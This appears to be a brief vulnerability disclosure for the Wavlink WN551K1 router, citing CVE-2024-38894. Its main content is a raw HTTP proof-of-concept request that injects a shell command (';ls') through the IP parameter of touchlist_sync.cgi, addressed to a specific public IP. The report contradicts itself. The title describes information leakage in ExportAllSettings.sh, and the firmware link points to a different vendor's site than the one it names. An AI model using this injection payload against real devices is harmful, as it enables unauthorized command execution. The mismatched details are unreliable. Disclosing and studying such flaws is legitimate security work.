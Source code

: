 # Wavlink WN551K1  /cgi-bin/ExportAllSettings.sh Sensitive information leakage

Product: Wavlink WN551K1

Manufacturer's website information：https://www.wavlink.com/en_us/index.html

Firmware download address ：[https://files.wavlink.com/fw/mesh/WN551K1%2CK2%2CK3-C-WAVLINK-WO-20210427-1087985](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-38894

### Analysis

The **v7** parameters were copied to the **v36** buffer without any filtering

![image](image.png)

### POC

```python
POST /cgi-bin/touchlist_sync.cgi?IP=;ls>./data.html HTTP/1.1
Host: 42.2.134.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Upgrade-Insecure-Requests: 1
```

![image-20240624093412576](./image-20240624093412576.png)

